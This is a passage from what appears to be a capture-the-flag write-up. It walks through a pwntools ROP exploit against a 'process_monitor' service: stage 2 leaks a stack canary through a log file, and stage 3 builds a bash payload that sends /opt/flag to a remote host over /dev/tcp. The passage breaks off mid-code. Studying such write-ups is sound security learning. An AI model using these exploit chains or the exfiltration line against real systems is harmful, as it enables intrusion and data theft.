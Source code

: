 Here we perform the overflow in process monitor, and in the our ropchain we read 300 bytes into the bss of our program. Then we perform open with the string we read into bss as our argument. This will trigger the buffer overflow and log the canary aslong as our string contains the work "flag". We include "DEADBEEF" so it's easier to search in the output later. We chose the bss segment as our write target cause it is always gonne be writable memory.

#### Stage 2 - Getting our leak
```py
def stage2():
    global io
    io = conn()
    io.recv()
    pmon = procdump(b"process_monitor")
    exe.address = get_base(pmon, b"/process_monitor")
    libc_addr = get_base(pmon, b"libc")
    libc.address = libc_addr
    info("Libc: " + hex(libc.address))
    info("exe: " + hex(exe.address))

    rop = ROP(libc)
    rop.read(0, exe.bss(), 32)
    rop.open(exe.bss(), 0)
    rop.read(fd, exe.bss(), 1024)
    rop.write(1, exe.bss(), 1024)
    rop.exit(0)

    payload = flat(
        cyclic(offset),
        rop.chain()
    )
    io.sendline(b"2")
    io.sendline(payload)
    io.sendline(b"syscall.log\x00")
    io.recvuntil(b"DEADBEEF\n")
    canary = io.recv(7)
    canary = b"\x00" + canary
    canary = u64(canary)
    info("Canary: " + hex(canary))
    io.close()
    return canary
```

Here we do something similar, but this time we read the string `syscall.log\x00` into the bss segment. Then we perform open on the string we just read in and read 1024 bytes from the file. After its done reading we write the content of the file to the terminal so we can receive our canary leak.

We can't really read more then 1024 bytes since it will trigger the second overflow and crash edr which would also terminate our process_monitor before we could write out the data.

#### Stage 3 - Preparing our payload
```py
def stage3():
    global io
    io = conn()
    io.recv()
    pmon = procdump(b"process_monitor")
    exe.address = get_base(pmon, b"/process_monitor")
    libc_addr = get_base(pmon, b"libc")

    libc.address = libc_addr
    info("Libc: " + hex(libc.address))
    info("exe: " + hex(exe.address))
    bash_code = f"#!/bin/bash\ncat /opt/flag > /dev/tcp/{REV_IP}/{REV_PORT}".encode()
    filename = next(libc.search(b"./0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz\x00"))
```